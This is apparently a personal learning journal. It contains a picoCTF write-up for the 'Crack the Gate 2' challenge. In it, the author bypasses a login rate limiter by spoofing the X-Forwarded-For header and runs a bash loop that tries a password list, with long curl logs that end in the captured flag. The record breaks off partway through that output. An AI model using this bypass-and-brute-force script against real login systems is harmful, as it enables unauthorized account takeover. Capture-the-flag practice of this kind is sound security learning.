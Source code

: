 # -*- auto-fill-function: nil; eval: (add-hook 'after-save-hook 'org-babel-tangle nil t); -*-

Current project: [[https://github.com/rafaelbeirigo/odin-css-exercises/][Web Development Foundations Course from The Odin Project]].

* [2025-10-21 Tue]

** Progress and tools

It seems I got to a point where I should automate some work---and do it fast---and go *slow* on some other work---and *reflect* about it.

Also, tired of the repetition.

Need to freshen up!

** Seinfeld Checkmark

[[file:images/2025-10-21_seinfeld.jpeg]]

* [2025-10-20 Mon]

** picoCTF

Today I finished the last Easy challenge they have.
It was 81 in total.
There are still two to solve, but they are under maintenance.

I also started the Medium level ones.
They are somehow clearer than the Easy ones (maybe because they go deep on a specific detail of a subject).

Here's the last one I solved:

*** Crack the Gate 2
**** Instructions and commentaries

We are given a link to a login page.

The instructions say:

- The login system has been upgraded with

- a basic rate-limiting mechanism that

  - locks out

  - repeated failed attempts

  - from the same source.

- We’ve received a tip that

  - the system might still trust

  - user-controlled headers.

- Your objective is to

  - bypass the rate-limiting restriction and

  - log in using the known email address: ctf-player@picoctf.org and

  - uncover the hidden secret.

We are also given the following Hints:

- What IP does the server think you’re coming from?
- Read more about [[https://www.typeerror.org/docs/http/headers/x-forwarded-for][X-forwarded-For]].
- You can rotate fake IPs to bypass rate limits.

**** Download assets
#+begin_src shell
2>&1 wget https://challenge-files.picoctf.net/c_amiable_citadel/d168d254b68d30726076de06aab9b9b74c5470344ec974360f5a9045c6398b17/passwords.txt
#+end_src

#+RESULTS:
#+begin_example
--2025-10-20 18:25:19--  https://challenge-files.picoctf.net/c_amiable_citadel/d168d254b68d30726076de06aab9b9b74c5470344ec974360f5a9045c6398b17/passwords.txt
Resolving challenge-files.picoctf.net (challenge-files.picoctf.net)... 108.158.186.79, 108.158.186.39, 108.158.186.116, ...
Connecting to challenge-files.picoctf.net (challenge-files.picoctf.net)|108.158.186.79|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 179 [application/octet-stream]
Saving to: ‘passwords.txt’

     0K                                                       100%  418M=0s

2025-10-20 18:25:21 (418 MB/s) - ‘passwords.txt’ saved [179/179]

#+end_example

Asset ~passwords.txt~:

#+begin_example
tkY83OwR
vISQRFmM
471HtPne
s8nXfR6X
WoQEk5GL
eu8z9EFn
0SMi2c8U
WlHiKuw6
0iaXgUGR
shNKoNrW
KaqwDEUA
eSqOLef7
CueFICmh
MZZSJucZ
eZQR9yx7
sPEIun6X
p0fkX9cA
CY1sEmC6
M707m17w
8thnKYYn
#+end_example

**** Is it possible to circumvent rate-limiting by spoofing IP via POST header X-Forwarded-For? Yes

I tried to login via the web page once, and got the command below.
Running it again here, using cURL.

#+begin_src shell
2>&1 curl -v 'http://amiable-citadel.picoctf.net:57381/login' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
  -H 'Connection: keep-alive' \
  -H 'Priority: u=0' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"whatever"}'
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57381...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57381 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57381
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 429 Too Many Requests
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 85
< ETag: W/"55-BeJP6dUudMpXjI0h8c0UICFySpk"
< Date: Mon, 20 Oct 2025 23:35:31 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [85 bytes data]
100   141  100    85  100    56    160    105 --:--:-- --:--:-- --:--:--   266
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false,"error":"Too many failed attempts. Please try again in 20 minutes."}
#+end_example

It applied the rate-limiting.

Now trying again, using the header ~X-Forwarded-For~ to spoof my IP.

#+begin_src shell
2>&1 curl -v 'http://amiable-citadel.picoctf.net:57381/login' \
  -X POST \
  -H 'X-Forwarded-For: 1.2.3.4' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
  -H 'Connection: keep-alive' \
  -H 'Priority: u=0' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"whatever"}'
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57381...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57381 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57381
> X-Forwarded-For: 1.2.3.4
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:38:09 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     36    119 --:--:-- --:--:-- --:--:--   155100    73  100    17  100    56     36    119 --:--:-- --:--:-- --:--:--   155
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}
#+end_example

It did *not* apply the rate-limiting!

**** Brute-force attack login with provided list of passwords

[[file:login.sh][login.sh]] ≡

#+begin_src shell
#!/bin/bash

# Part of the IP that will change for each request
I=1

cat passwords.txt | \
    while read PWD
    do
        # Get a new IP
        2>&1 curl -v 'http://amiable-citadel.picoctf.net:57780/login' \
             -X POST \
             -H 'X-Forwarded-For: 1.2.3.'$I \
             -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
             -H 'Accept: */*' \
             -H 'Accept-Language: en-US,en;q=0.5' \
             -H 'Accept-Encoding: gzip, deflate' \
             -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
             -H 'Content-Type: application/json' \
             -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
             -H 'Connection: keep-alive' \
             -H 'Priority: u=0' \
             --data-raw '{"email":"ctf-player@picoctf.org","password":"'$PWD'"}'

        # Change a part of the IP for the next request
        I=$(( $I + 1 ))
    done
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.1
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:16 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     67 --:--:-- --:--:-- --:--:--    87
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.2
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:17 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     68 --:--:-- --:--:-- --:--:--    89
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.3
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:18 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.4
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:19 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.5
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:20 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     68 --:--:-- --:--:-- --:--:--    89
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.6
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 132
< ETag: W/"84-GgUl5OLUlonh/YEAoxXrH+ecwrc"
< Date: Mon, 20 Oct 2025 23:52:20 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [132 bytes data]
100   188  100   132  100    56    159     67 --:--:-- --:--:-- --:--:--   226
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{xff_byp4ss_brut3_1cc3b76e}"}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.7
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:21 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     71 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.8
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:22 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.9
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:23 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.10
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:23 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.11
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:24 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.12
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:25 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.13
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:26 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.14
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:27 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
